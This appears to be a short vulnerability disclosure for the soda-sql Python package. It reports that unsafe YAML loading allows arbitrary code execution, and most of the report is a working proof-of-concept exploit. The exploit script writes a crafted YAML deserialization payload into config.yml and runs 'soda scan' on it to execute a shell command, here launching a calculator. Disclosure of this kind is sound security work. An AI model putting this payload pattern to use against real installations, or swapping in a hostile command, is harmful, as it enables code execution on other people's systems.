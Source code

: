 # Description

`soda-sql` Metric collection, data testing and monitoring for SQL accessible data, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install soda-sql
```

### Run exploit.py
```
import os
#os.system('pip3 install soda-sql)
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('soda scan config.yml config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
